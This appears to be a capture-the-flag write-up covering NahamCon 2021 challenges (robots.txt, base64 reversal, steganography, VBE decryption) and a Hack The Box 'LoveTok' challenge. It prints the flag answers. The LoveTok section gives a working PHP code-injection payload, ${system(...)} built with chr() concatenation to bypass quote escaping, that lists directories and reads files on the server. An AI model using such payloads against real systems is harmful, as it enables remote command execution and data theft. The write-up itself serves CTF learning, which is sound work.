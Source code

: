 # NahamCon 2021 Write-ups
## Beginning tasks
These tasks are "hidden" in website HTML source code or in Discord channel description. They are easy to find.
- Read the rules
- #NahamCon2021
- UHC-BR
- Red Team Village
- Merch Store
- Live Recon Village
- IoT Village
- INE Career Corner
- HTB Village
- The Mission

## The Mission
### Bionic
We were given the website: https://constellations.page and the flag should be from the site.
No flag was found in the HTML or any .css, .js files. However, visiting https://constellations.page/robots.txt and the flag is just there:
```
flag{33b5240485dda77430d3de22996297a1}
```
also with a link to another page: `/meet-the-team.html`

### Meet The Team
There is already a hint to a comment in HTML source code
```html
<!-- Vela, can we please stop sharing our version control software out on the public internet? -->
```
I tried https://constellations.page/.git/ but that folder was locked (403). But I'm guessing the files are accessable. 
```

```

### something
At the bottom of the page, there are social media profile links. Navigating to the twitter link provided. The account has 1 tweet as the flag: https://twitter.com/C0NST3LLAT10NS/status/1370492033656365058
```
flag{e483bffafbb0db5eabc121846b455bc7}
```

## esab64
It's litterally base64 reverse string<br/>
The given string in file provided is
```
mxWYntnZiVjMxEjY0kDOhZWZ4cjYxIGZwQmY2ATMxEzNlFjNl13X
```
Reversing that we get
```
X31lNjFlNzExMTA2YmQwZGIxYjc4ZWZhODk0YjExMjViZntnYWxm
```
Do a base64 decode and we get a reversed flag
```
_}e61e711106bd0db1b78efa894b1125bf{galf
Poof: flag{fb5211b498afe87b1bd0db601117e16e}
```

## Shoelaces
A JPEG image of shoelaces was given. Running `strings` on the file output the flag in the middle.
```
flag{137288e960a3ae9b148e8a7db16a69b0}
```

## Veebee
We were given a .vbe script which is an encrypted .vbs. However it has junks added in the first 3 lines. Removing them and we will have a clean .vbe file.<br/>
Using this online tool https://master.ayra.ch/vbs/vbs.aspx to decrypt it to .vbs
```
flag{f805593d933f5433f2a04f082f400d8c}
```

## Pollex
A file `pollex` was given. Running `file` would show that this is a JPEG.<br/>
Running some tools like steghide binwalk wouldn't show anything.<br/>
It took me a while to realise the thumbnail has tiny text at the bottom (obviously the flag).<br/>
Using the command
```shell
exiftool -b -ThumbnailImage pollex.jpg > thumbnail.jpg
```
to extract the thumbnail image. Typing out the flag...? What? Hell no! Here: https://onlineocr.org/
```
flag{65c34a1ec121a286600ddd48fe36bc00}  // Okay there were mistakes by OCR ¯\_(ツ)_/¯
```

## HTB-LoveTok
We were given a link to hackthebox challenge. Running the instance of LoveTok and we got the link to a page with its source code.<br/>
On the page, a random string countdown time was given with a button to `<link>/?format=r`<br/>
There might be php file inclusion here.<br/>
Reading the source code, it seems like `format` param was used in `date()` function to represent the time in string. We cannot use `'`, `"` or `\` as they are escaped.<br/>
However we can use `${}` to include a php variable. `/format=${phpinfo()}` will show the phpinfo in the page, this confirms we can use `${}`. Now our goal is to get the file `flag` at the root of the container.

We can run `${system()}` to execute a shell command and cat the flag file, however we cannot use quotations -> spaces cannot be added, for example, `system(cat flag)` is not valid because `cat<space>flag` will be treated as PHP variables. There is a way to bypass this, using php `chr()` function and concatenate them.
Using this command, we can list the files in the root directory
```php
// ls ..
${system(ls.chr(0x20).chr(0x2e).chr(0x2e))}
/* Output
bin boot dev entrypoint.sh etc flagIJGrx home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var www
*/
```
You can see we have the file flagIJGrx. Now let's cat it out
```php
// cat ../flagIJGrx
${system(cat.chr(0x20).chr(0x27).chr(0x2e).chr(0x2e).chr(0x2F).flagIJGrx.chr(0x27))}
```
Voilà, the flag:
```
HTB{wh3n_l0v3_g3ts_eval3d_sh3lls_st4rt_p0pp1ng}
```